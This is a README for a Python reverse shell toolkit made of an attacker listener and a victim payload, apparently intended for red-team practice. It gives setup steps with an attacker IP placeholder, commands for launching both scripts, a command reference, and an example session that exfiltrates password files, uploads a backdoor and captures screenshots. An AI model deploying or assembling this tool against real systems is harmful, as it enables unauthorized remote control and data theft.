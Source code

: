 # 🚀 Advanced Python Reverse Shell

This **advanced reverse shell** is a robust upgrade over the basic version — designed for **realistic red teaming**, **persistent control**, and **hands-on ethical hacking practice**.

Built entirely in Python, it supports reliable reconnections, file transfers, screenshot capture, and cleaner command handling — all while maintaining code clarity and modularity for learning.

> ⚠️ For authorized educational use only. Do not run this on unauthorized systems or networks.

---

## 🆚 Basic vs Advanced: What's New?

| Feature                        | Basic Version                    | Advanced Version                                                       |
|-------------------------------|----------------------------------|------------------------------------------------------------------------|
| Persistent Reconnect          | ❌ Single attempt                 | ✅ Retries every 5 seconds if listener offline                         |
| File Download                 | ❌ Not supported                  | ✅ Substring match, filename confirmation, binary download             |
| File Upload                   | ❌ Not supported                  | ✅ Supports 0-byte and error handling                                  |
| Screenshot Capture            | ❌ Not supported                  | ✅ Remote capture + auto-delete + timestamped filename                 |
| Directory Navigation (`cd`)   | ✅ Supported                      | ✅ Echo current directory, cross-platform                              |
| Output Encoding               | ⚠️ Limited                       | ✅ CP437/UTF-8 auto-fallback, safe decode                              |
| No Output Feedback            | ❌ No feedback                    | ✅ "Command executed successfully" response                            |
| Graceful Exit (`stop`)        | ✅ Supported                      | ✅ Closes both scripts cleanly                                         |
| Socket Reuse (`SO_REUSEADDR`) | ❌ No                            | ✅ Prevents "port in use" errors                                       |

---

## 📁 Folder Structure

```

Advanced-Version/
├── README.md             # Tool documentation
├── advanced_hacker.py    # Listener with command + file support
└── advanced_victim.py    # Victim payload with persistent reconnect

````

---

## ✨ Features Overview

- 🔁 **Persistent Reconnect**  
- 💻 **Remote Command Execution**  
- 📂 **Directory Navigation (`cd`)**  
- 📥 **File Download** (auto-listing for name prefixes)  
- 📤 **File Upload** (with 0-byte detection)  
- 🖼️ **Screenshot Capture + Auto-Download**  
- 🛑 **Graceful Session Termination**  
- 📡 **Port Reuse with `SO_REUSEADDR`**  
- ⚙️ **File Protocol with 8-byte headers**  
- 🔐 **Cross-platform Encoding Handling**

---

## 🚀 Usage

### 🔧 Step 1: Configure IP & Port

In both `advanced_hacker.py` and `advanced_victim.py`:

```python
hacker_ip = "YOUR_ATTACKER_IP"
hacker_port = 10000
````

> Use `ipconfig` (Windows) or `ip a` (Linux) to find your IP address

---

### 🧠 Step 2: Start Listener (Attacker)

```bash
python3 advanced_hacker.py
```

### 👾 Step 3: Run Victim

On the victim machine:

```bash
python3 advanced_victim.py
```

Victim retries connection every 5 seconds.

---

## 💬 Command Reference

| Command             | Description                                                  |                                                        |
| ------------------- | ------------------------------------------------------------ | ------------------------------------------------------ |
| `cd`, `cd <path>`   | Navigate directories or show current directory               |                                                        |
| \`download \<prefix | name>\`                                                      | List matches if partial; exact match triggers download |
| `upload <filename>` | Upload file to victim from attacker machine                  |                                                        |
| `screenshot`        | Remote screen capture (PNG auto-saved & deleted from victim) |                                                        |
| `stop`              | Clean shutdown of both scripts                               |                                                        |
| Any shell command   | Executed and output is returned                              |                                                        |

---

## 📌 Example Session

```bash
> cd Desktop
Changed directory to Desktop

> download pass_
All files with (pass_) name!
  [+] pass_list.docx
  [+] pass_info.txt

> download pass_list.docx
Receiving file (38290 bytes)...
pass_list.docx downloaded successfully!

> upload backdoor.py
backdoor.py uploaded successfully!

> screenshot
Screenshot saved as screenshot-2025-06-03_08-00-00.png
File also removed from victim!

> stop
[*] Session terminated. Exiting.
```

---

## 🔬 Technical Insights

* 🔄 **Persistent loop**: Victim reconnects forever until success
* 🧠 **Command parser**: Smart logic for `cd`, `download`, `upload`, `stop`, and fallback shell
* 📦 **File transfer**: 8-byte file size header + binary chunks
* ✍️ **Encoding**: `cp437` (Windows) / `utf-8` (Linux), with fallback

---

## 🔐 Legal & Ethical Disclaimer

This software is provided for **educational and authorized cybersecurity practice only**.
Running it on systems or networks you do not **own or have explicit written permission to test** is illegal.

> The author assumes **no liability** for any misuse or damage caused.

---

## 🔗 Navigation

- ⬅️ [Back to Reverse Shell Overview](../README.md)
- ⬅️ [Back to All Tools](../../../README.md)
- 🔹 [Go to Basic Version](../Basic-Version/README.md)

---

## 👨‍💻 Author

**Muhammad Rehan Rashid**
🧠 GitHub Alias: [`C0de-N1nja`](https://github.com/C0de-N1nja)